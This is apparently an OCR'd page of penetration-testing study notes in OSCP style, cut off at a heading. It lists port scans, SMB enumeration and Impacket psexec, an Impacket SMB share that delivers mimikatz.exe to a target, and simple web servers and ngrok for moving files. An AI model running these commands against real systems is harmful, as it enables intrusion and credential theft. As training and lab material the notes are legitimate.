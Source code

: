     1.  netstat -na -f inet | grep LISTEN
    2.  netstat -nat | grep LISTEN

-   Nmap scan syntax
    1.  sudo nmap -sT -O localhost
    2.  sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
    3.  sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

## SMB - Enumeration

-   https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
-   smbmap -H 10.10.10.10
-   smbclient -L 10.0.0.10
-   smbclient //10.10.10.10/share$

## SMB - Impacket

-   Impacket's PSEXEC (After creating a remote port fwd)
    /usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)

[*] Trying protocol 445/SMB...

-   Impacket's SMBServer (For File Transfer)

1. cd /usr/share/windows-binaries
2. python /usr/share/doc/python-impacket/examples/smbserver.py a .
3. \\\10.10.10.10\a\mimikatz.exe

## SMTP Enumeration

https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/SMTP/smtp_commands.txt

## ICMP Injection

1. ping -n 3 10.10.10.10
2. tcpdump -i tun0 icmp

## VMware (not going full screen)

`systemctl restart open-vm-tools.service`

## Web Servers:

-   python -m SimpleHTTPServer 80
-   python3 -m http.server 80
-   ngrok http "file:///C:\Users\sinfulz\Public Folder"
-   php -S 0.0.0.0:80

## Web Scanning:
